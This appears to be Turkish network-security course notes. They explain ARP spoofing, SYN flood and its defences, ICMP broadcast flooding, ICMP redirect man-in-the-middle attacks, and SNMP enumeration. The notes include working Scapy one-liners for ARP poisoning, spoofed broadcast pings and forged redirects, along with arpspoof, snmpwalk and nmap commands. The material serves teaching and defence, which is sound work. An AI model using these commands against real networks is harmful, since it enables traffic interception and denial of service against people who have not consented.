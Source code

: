 ## Network Saldırıları

**- ARP Kullanılarak Yapılabilecek Saldırı Örnekleri:** Haberleşmek isteyen sistemlerin ya haberleşememesine sebep olmak ya da haberleşmeleriyle ilgili olan kısma kendisini de dahil etmektir. Maksat zarar vermek ise, servis dışı etmek için kullanılabilir(DoS). Maksat fayda sağlamak ise hedefin trafiğinin kendi üzerimizden geçmesini sağlamaktır. Trafiği kendi üzerimizden geçirdiğimiz saldırı türü Man in the Middle(MITM) olarak adlandırılır.

**- İşleyiş:** Attacker, server ile client arasında ARP ile bağlantı kurar. Attacker, server'in IP adresine kendi MAC adresini ekleyerek client'e ARP paketi yollar. Client'in ARP tablosundaki IP-MAC değerleri yoksa yazılır, varsa saldırganın yolladığı şekilde güncellenir. Bir sonraki isteği client, saldırgana yollayacaktır. Eğer saldırgan aynı işlemi server için de yaparsa (kendi IP'sini client olarak gösterip MAC adresine kendi MAC adresini vermek) Man in the middle saldırısı olacak ve trafik saldırganın üzerinden geçecek. Eğer saldırgan server için bu işlemi yapmazsa client cevap alamayacak ve servis dışı kalacak(Dos). 

**- Uygulama:**

    -Server IP: 192.168.0.23, MAC:00:0c:29:6b:f3:9f
    
    -Client IP: 192.168.31.31, MAC:00:0c:29:6b:97:48
    
    -Attacker IP: 192.168.0.105, MAC:00:0c:29:f0:0b:61

    => scapy
    
    => sendp(Ether(dst="00:0c:29:6b:97:48")/ARP(op=2,psrc="192.168.0.23",pdst="192.168.31.31",hwsrc="00:0c:29:f0:0b:61",hwdst="00:0c:29:49:97:48")) 
    
    => sendp(Ether(dst="00:0c:29:6b:f3:9f")/ARP(op=2,psrc="192.168.31.31",pdst="192.168.0.23",hwsrc="00:0c:29:f0:0b:61",hwdst="00:0c:29:49:f3:9f"))
    
    => echo 1 > /proc/sys/net/ipv4/ip_forward/ (router = 1 yapma işlemi)

  * Tool kullanarak:
    
    => arpspoof -i eth0 -c both

**- SYN Flood:** Sahte bir IP ile sürekli SYN paketi yollanır. Yollanan paketleri hedef SYN tablosunda tutar. Hedefin döndürdüğü SNY+ACK paketi boşa gideceği için cevap gelmez ve tablonun boyutu artar (DoS). 

  * **Alınabilecek önlemler:** 
  
  **1.** Tablonun boyutunu arttırmak (Maliyet + çözüm değil). 
    
  **2. Syn proxy:** (Syn proxy'i bütün portlara syn yollayarak tespit edebiliriz. Eğer kapalı port yoksa syn proxy ile karşı karşıya olduğumuzu anlarız.) Hedef ile aramızda durarak SYN paketlerini kendi üzerine alır SYN+ACK gönderir. ACK geri geldiğinde paketi hedefe ulaştırır. 

  **3. Syn proxy cookie:** Threeway Handshake esnasında değişmeyen 4 bilgi var. Bunlar: Source IP, Source Port, Destination IP, Destination Port. Makine bir fonksiyon ile bu 4 bilgiyi ve bir de makine çalıştırılmaya başladığında RAM de random oluşan bir değeri topluyor. Ardından bu "toplam"ı SYN isteği yollayan makinelere SYN+ACK döndüreceği zaman sequence number olarak kullanıyor. Kendisine threeway handshake'in son aşaması olan ACK paketi döndüğünde ACK sayısı "toplam"+1 olmak zorunda. "toplam"+1 den 1 çıkarıp gelen ACK paketini doğruluyor.

**- UDP/ICMP kullanılarak yapılabilecek bir saldırı:** İç ağdayken ağdaki herkese kaynak IP, hedefin IP'si olarak gösterilip ping yollanır. Herkes birden hedefe ping reply döner. 

  **- Uygulama:**

    => echo 0 > /proc/sys/net/ipv4/icmp_echo_ignore_broadcasts (broadcast yapabilmemiz için bu dosyanın değerinin 0 olması gerek, yoksa icmp paketlerini broadcast olarak yollayamayız.)
    
    => scapy
    
    => send(IP(src="hedef",dst="broadcast")/ICMP(type=8),loop=1)

**- DNS Amplification:**

**- ICMP Redirect(type=5):** ICMP Redirect mesajı, kendisine ulaşmak isteyen makineye bir router(yönlendirici) tarafından eğer bağlanabileceği daha iyi bir router varsa, bunun bilgisini döndürür.

**- ICMP Redirect ile Man in the Middle Attack (ICMP type=5):** Hedefe daha iyi bir router olduğunu, bu router'in biz olduğumuzu söylediğimiz saldırı. Bu sayede hedef bizi router olarak kullanmaya çalışacak, hedefin trafiğini üzerimize alacağız. 

      => scapy
      
      => send(IP(src="192.168.0.1",dst="192.168.0.9")/ICMP(type=5,code=1,gw="192.168.0.10")/IP(src="192.168.0.9",dst="46.45.154.70")/TCP(flags="S",dport=80,sport=5555))

**- SNMP (Simple Network Management Protocol):** SNMP, UDP Protokolü ile çalışır. 161 portunu kullanır.

**- MIB/OID:** Ağın dallara ayrılarak hangi dalın kaçıncı MIB'i şeklinde bir sorguya dönen bilgiler OID diye geçer. Bu bilgilerle MIB içerisinde konumunu bildiğimiz bir makinenin OID bilgilerine ulaşabiliriz.

  - MIB sayılarla ifade edilir. Alt dallara geçmek için araya nokta konur. 
  
  - Örnek: .1.3.6

**- Community String:** SNMP paketi içerisinde yer alan bir bilgidir. 

  * SNMP paketi içerisinde yer alan community string'ler: Public(read only), private(write). Community string ele geçirilerek bu yetkiler elde edilebilir.

  * Üç versiyon vardır. V1 ve V2 Community String üzerinden gider. V3 ise username-password'da kullanır.

  **- Uygulama:**  
    
    => snmpwalk -v 1 -c public 192.168.0.39 .1.3.6.1.2.1.2.2

  * İnternette "linux system oid's" şeklinde arama yapılarak OID örneklerine ulaşılabilir.

**- Ödev:** 192.168.0.39'dan SNMP ile bilgi topla:

    => snmpwalk -v 1 -c public 192.168.0.39 .1.3.6.1.2.1.2.2

    - NMAP ile: => nmap -p161 -T5 -sU --script=snmp-*.nse 192.168.0.39 -vv

## Soru-Cevap

- TCP/UDP'de yapacağımız IP sahteciliği (IP Spoofing) başarılı olabilir mi?

  * TCP içerisinde çok zor. Eğer seq/ack sayılarına sahipsek yapabiliriz. UDP içerisinde ise herhangi bir doğrulama sistemi olmadığı için basitçe yapılabilir.

###### Notlar 

- TCP'de IP spoofing, olmayan bir IP spoof edilerek karşıya kör(blind) bir şekilde, cevapları almadan sürekli paket yollanılarak yapılır. Eğer spoof ettiğimiz IP gerçekten kullanılıyor ise, RST döner.

- [Scapy ile SYN Flood ödevi](Syn_Flood/syn_flood.py)

- [Scapy ile SNMP bilgi toplama ödevi](Scapy_SNMP/scapy_snmp.py)

